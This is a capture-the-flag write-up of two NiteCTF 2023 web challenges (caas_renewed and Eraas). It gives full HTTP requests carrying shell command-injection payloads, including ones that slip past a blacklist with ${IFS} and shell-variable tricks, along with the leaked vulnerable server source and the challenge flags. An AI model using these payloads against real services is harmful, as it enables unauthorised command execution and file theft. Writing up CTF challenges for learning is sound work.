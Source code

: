 ```yaml
---
toc: true
title: NiteCTF 2023
description: NiteCTF
pubDate: 2023-12-18
author: Duc Anh Nguyen
---
```


## Web
<div style="border-bottom: 3px solid grey;"></div>

### **[caas_renewed](http://caas.web.nitectf.live)**
There is a cowsay service running, it takes user input from the `GET URL: /cowsay/{input}`. Cleary there is a command injection vulnerability. But there are some filters and also restrictions for the input, I was able to extract the source code of the server using the following payload:

```http
GET /cowsay/a;cd${IFS}-;cat${IFS}ma* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```

<details>
<summary><b>SourceLeak.py</b></summary>

```python
from fastapi import FastAPI
from fastapi.staticfiles import StaticFiles
from fastapi.responses import PlainTextResponse
import subprocess
import time
import os
from uvicorn.workers import UvicornWorker


# remove server header
# gunicorn  -k main.ServerlessUvicornWorker main:app -b "0.0.0.0:1337" --access-logfile '-'
class ServerlessUvicornWorker(UvicornWorker):
    def __init__(self, *args, **kwargs):
        self.CONFIG_KWARGS["server_header"] = False
        super().__init__(*args, **kwargs)


TIMEOUT = 5
SLEEP_TIME = 0.1
DEBUG = False

BLACKLIST = [x[:-1] for x in open("./blacklist.txt").readlines()][:-1]

BLACKLIST.append("/")
BLACKLIST.append("\\")
BLACKLIST.append(" ")
BLACKLIST.append("\t")
BLACKLIST.append("\n")
BLACKLIST.append("tc")

ALLOW = [
    "{",
    "}",
    "[",
    "pwd",
    "-",
    "if",
    "tac",
    "ac",
    "cd",
    "tree",
    "ls",
    "echo",
    "tee",
    "touch",
    "mkdir",
    "dir",
    "mv",
    "chmod",
    "ping",
]

for a in ALLOW:
    try:
        BLACKLIST.remove(a)
    except ValueError:
        pass


def isClean(input):
    input = input.lower().strip()
    if any(x in input for x in BLACKLIST):
        if DEBUG:
            for i in BLACKLIST:
                if i in input:
                    print("Banned reason:", i)
                    break
        return False
    return True


def timeout(proc):
    count = 0
    while proc.poll() == None:
        time.sleep(SLEEP_TIME)
        count += SLEEP_TIME
        if count > TIMEOUT:
            proc.terminate()


app = FastAPI()
api = FastAPI()

pwd = os.path.dirname(os.path.realpath(__file__))

app.mount("/cowsay", api)
#app.mount("/", StaticFiles(directory="{}/static".format(pwd), html=True))

#os.chdir("/usr/games")


@api.get("/{user_input}")
def response(user_input):
    if not isClean(user_input):
        cmd = "cowsay {}".format("'Whoops! I cannot say that'")

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )
        output = p.communicate()[0]

        return PlainTextResponse(output)
    else:
        cmd = "cowsay {}".format(user_input)

        p = subprocess.Popen(
            cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
        )

        timeout(p)

        if DEBUG:
            try:
                output = "\n".join(x.decode() for x in p.communicate())
            except (UnicodeDecodeError, AttributeError):
                try:
                    output = p.communicate()[1].decode()
                except:
                    output = p.communicate()[1]

        else:
            output = p.communicate()[0].decode()

        if DEBUG:
            print("OUTPUT:", output)

        if len(output):
            return PlainTextResponse(output)

        else:
            if "denied" in output:
                cmd = "cowsay {}{}".format('"permission denied"', user_input)
            else:
                cmd = "cowsay {}{}".format(
                    '"Oops! Something went wrong. You said "', user_input
                )

            p = subprocess.Popen(
                cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
            )

            output = p.communicate()[0]

        return PlainTextResponse(output)
```
</details>

Knowing the logic behind blacklisting characters now, it is easy to spin up a payload to print out the flag

- `pwd|c'u't${IFS}-c1`: Get the first character of the command pwd, which is pwd
- ban=\`echo${IFS}t\`: Set the variable ban to t (which is one of the blacklisted characters)
- `cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f*`: Print the flag.

```http
GET /cowsay/a;slash=`pwd|c'u't${IFS}-c1`;ban=`echo${IFS}t`;cat${IFS}${slash}e${ban}c${slash}cowsay${slash}f* HTTP/1.1
Host: caas.web.nitectf.live
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 2
```


```http
Flag:

HTTP/1.1 200 OK
date: Mon, 18 Dec 2023 10:04:21 GMT
content-length: 180
content-type: text/plain; charset=utf-8
Connection: close

 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```


### [Eraas](!http://eraas.web.nitectf.live/)
Command injection in user input:

```http
POST / HTTP/1.1
Host: eraas.web.nitectf.live
Content-Length: 34
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eraas.web.nitectf.live
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eraas.web.nitectf.live/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

user_input=1745291415|cat flag.txt
```

**Flag:**
`nite{b3tt3r_n0_c5p_th7n_b7d_c5p_r16ht_fh8w4d}`

